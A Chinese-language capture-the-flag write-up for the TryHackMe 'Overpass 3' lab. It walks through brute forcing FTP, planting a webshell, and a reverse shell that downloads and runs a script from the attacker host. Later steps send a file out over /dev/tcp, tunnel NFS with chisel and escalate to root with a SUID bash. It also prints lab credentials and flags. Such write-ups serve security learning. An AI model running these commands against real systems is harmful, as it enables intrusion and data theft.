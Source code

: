 # Overpass 3
###### tags: `thm`
> URL : https://tryhackme.com/room/overpass3hosting

IP :  10.10.208.60 

## Recon
- 先掃 Port
    - `rustscan -a 10.10.208.60`
    - ![](https://i.imgur.com/rD5MaOl.png)
- 嘗試 FTP Anonymous 登入
    - ![](https://i.imgur.com/S4radmP.png)
    - 發現不行
- 觀察首頁
    - ![](https://i.imgur.com/M2jslnM.png)
- 掃目錄
    - `python3 dirsearch.py -u http://10.10.208.60/`
    - `/backups/`
    - 找到一包 Backup
        - ![](https://i.imgur.com/yoQyHaf.png)
## GPG 解密
- 觀察 Backup
    - `wget http://10.10.208.60/backups/backup.zip`
    - 裡面有兩個檔案
        - ![](https://i.imgur.com/8jvPuov.png)
        - ![](https://i.imgur.com/E0JaxzX.png)
        - gpg 加密後的檔案跟它的 key
            - `gpg --import priv.key`
            - `gpg --output ./a.xlsx --decrypt ./CustomerDetails.xlsx.gpg`
        - ![](https://i.imgur.com/QYAREMT.png)
- 解開後是一個 Excel 表格
    - ![](https://i.imgur.com/FN7APLv.png)
    - `paradox:ShibesAreGreat123`
    - `0day:OllieIsTheBestDog`
    - `muirlandoracle:A11D0gsAreAw3s0me`
## 爆破密碼
- 有一連串的帳號跟密碼，試著用 Hydra 爆破 SSH
    - `hydra -L user.txt -P pass.txt ssh://10.10.208.60`
    - ![](https://i.imgur.com/PuFlIx6.png)
    - 發現 SSH 不能用密碼登入
- 試著爆破 FTP
    - `hydra -L user.txt -P pass.txt ftp://10.10.208.60`
    - ![](https://i.imgur.com/Y6IYkJ7.png)
    - 找到了一組帳密可以使用
        - `paradox:ShibesAreGreat123`
## FTP 2 Webshell
- 嘗試登入 FTP
    - ![](https://i.imgur.com/77Rwv2x.png)
    - 發現看起來是 webroot
    - 放隻 Webshell 上去
    - `put webshell.php`
    - ![](https://i.imgur.com/m1YHIcT.png)
    - 發現成功惹!!
- 使用 Webshell
    - ![](https://i.imgur.com/bpVLmNJ.png)
    - 放 Reverse shell
        - http://10.10.208.60/webshell.php?A=curl%20-o%20%20/tmp/s%2010.13.21.55:8000/s
        - 本地開 nc -nlvp 7877
        - http://10.10.208.60/webshell.php?A=bash%20/tmp/s
        - 收到 Reverse shell 
        - ![](https://i.imgur.com/cFAOx7B.png)
## 提權
- 轉互動式 shell
    - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- 找 Web Flag
    - `find / -iname '*flag*' -print 2>/dev/null`
    - 找到在 `/usr/share/httpd/web.flag`
        - ![](https://i.imgur.com/Rb4zfZR.png)
    - `thm{0ae72f7870c3687129f7a824194be09d}`
- 準備 Linpeas
    - `curl -o linpeas.sh 10.13.21.55:8000/linpeas.sh`
    - `bash linpeas.sh`
        - Sudo version 1.8.29
    - 發現 nfs 很可疑，但我們先繼續看下去
        - ![](https://i.imgur.com/wufaUIi.png)
        - https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
    - 發現幾個檔案可以 setuid
        - ![](https://i.imgur.com/YS20qF5.png)
        - 但都不能利用
- 發現 nfs 如果需要利用，需要用 showmount，但電腦裡沒有
    - 自己載一包來放著
    - `curl -o ./showmount  http://10.13.21.55:8000/showmount`
    - 但 run 起來都失敗 QQ
- 發現根目錄有奇怪的檔案
    - `/.autorelabel`
    - ![](https://i.imgur.com/h35DLB7.png)
    - 用 nc 傳出來觀察
    - `cat .autorelabel > /dev/tcp/10.13.21.55/1234`
    - 發現裡面是空的 QQ
- 突然想到可能可以切換使用者
    - 因為前面我們 Excel 有密碼
    - `su paradox`
    - ![](https://i.imgur.com/Sve53hC.png)
    - 切換使用者成功

## 二次提權
- 基本上我們猜測接下來就要使用 nfs 的漏洞，但是我們一開始 nfs 在掃 port 時並沒有掃到，因此猜測它只開在 local，我們來掃掃看 local 的 port
    - 準備 nmap binary
        - https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
    - 掃下去
        - ![](https://i.imgur.com/Rvfodoz.png)
        - 找到 nfs 開在 2049 port
- 觀察發現 paradox 的 `.ssh` 只有 public key
    - ![](https://i.imgur.com/wQh4gvk.png)
    - 好ㄉ沒啥用 = =
- 本地端有開 nfs 但我們權限很低，那我們可以把 nfs 給用 port forwarding 打出來，使用 chisel
    - https://github.com/jpillora/chisel
    - `curl http://10.13.21.55:8000/chisel -o chisel`
    - `chmod +x chisel`
- 輸入指令
    - 攻擊機 : `./chisel server --reverse -p 7414`
        - ![](https://i.imgur.com/vnSOu9o.png)
    - 靶機 : `./chisel client 10.13.21.55:7414 R:2049:127.0.0.1:2049`
        - ![](https://i.imgur.com/qVIbN7f.png)
    - 用 nmap 掃攻擊機看看有沒有真的打通
        - ![](https://i.imgur.com/miQAQB8.png)
- 把 nfs mount 到本機
    - `sudo mount -t nfs localhost:/ mount/`
    - ![](https://i.imgur.com/Zt6Z0hF.png)
- 發現 mount 成功
    - ![](https://i.imgur.com/b4HeVgR.png)
    - 裡面有 ssh 的 key，所以我們可以複製出來直接用 james 的 ssh 進行登入
        - ![](https://i.imgur.com/JHhPHll.png)
        - 也找到了 User 的 Flag
- 在攻擊機 mount 的 nfs 目錄
    - 直接複製自己的 `/bin/bash`
    - 給它 +s 提供 suid
        - ![](https://i.imgur.com/WbW1ohS.png)
    - 再用 james 進行執行
        - ![](https://i.imgur.com/KKhTeTA.png)
        - 發現怎麼還是 james QQ
- 再回來攻擊機 chown 把 bash 的 owner 改 root
    - 就可以ㄌ!!
        - ![](https://i.imgur.com/FStYNoX.png)
    
- Root flag
    - `thm{a4f6adb70371a4bceb32988417456c44}`
    - ![](https://i.imgur.com/I99be39.png)

## 學到ㄌ
Port forwarding
NFS 提權
SUID 要 own=root才能用
